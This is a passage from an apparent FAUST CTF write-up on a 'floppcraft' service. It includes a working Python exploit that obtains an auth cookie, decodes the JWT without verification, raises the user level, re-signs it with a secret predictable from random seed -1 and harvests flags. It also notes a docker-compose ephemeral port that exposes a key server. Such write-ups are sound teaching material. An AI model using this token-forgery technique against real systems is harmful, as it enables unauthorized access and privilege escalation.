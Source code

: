The valid JWT token can therefore be signed with a secret from the random generator with seed -1.

### Exploit
```py
...
def get_auth_cookie(title = "randomTitle", image = "image.jpg"):
    im = Image.new("RGB", (100, 100)) # Create a new image
    im.info["exif"] = piexif.dump({"0th": {270: bytes.fromhex("466c6f707079657469").decode('utf-8')}}) # "Floppyti" EXIF data

    imgByteArr = io.BytesIO() # Create a new byte array
    im.save(imgByteArr, format="JPEG", exif=im.info["exif"]) # Save the image to the byte array

    response = requests.post(f"http://[HOST]:5000/upload", data={"title": title}, files={"image": (image, imgByteArr.getvalue())}) # Upload the image to the server
    return response.cookies["auth"] # Return the auth cookie

auth_cookie = get_auth_cookie() # Get the auth cookie
auth = jwt.decode(auth_cookie,options={"verify_signature":False}) # Decode the auth cookie without verifying the signature
auth["level"] = 2 # Set the level to 2

seed(-1) # Seed the random number generator with -1
secret = randbytes(8) # Generate a random 8 byte secret
encoded = jwt.encode(auth,secret,"HS256") # Sign the auth cookie with the secret

response = requests.get(f"http://[HOST]:5000/auth/collectIntel", cookies={"auth":encoded}) # Get the intel from the server
base64_strings = re.findall(r'([A-Za-z0-9+/]+={0,2})', response.text) # Find all base64 strings in the response

for base64_string in base64_strings:
    try:
        decoded = base64.b64decode(base64_string) # Decode the base64 string
        if b"FAUST" in decoded: # Check if the decoded string contains "FAUST"
            print(str(decoded), flush=True) # Print the decoded string
    except Exception as exc:
        pass
...
```

## Docker-Compose Ephemeral port
Docker compose allows you to define an ephemeral port. In this case, docker will attempt to expose the service on the available port. Thus, the KeyServer service has been opened to the Internet by default in docker compose. It was therefore possible to retrieve the generated secret and then reuse it as a seed in a random generator to create a secret for signing a JWT token.
This exploit only worked if the table in KeyServer was fixed.

```yml
...
  KeyServer:
    restart: unless-stopped
    image: faust.cs.fau.de:5000/floppcraft-key-server
    init: true
    build: floppcraft/KeyServer
    ports:
      - '5001' # Ephemeral port
    depends_on:
      postgres:
        condition: service_healthy
...
```
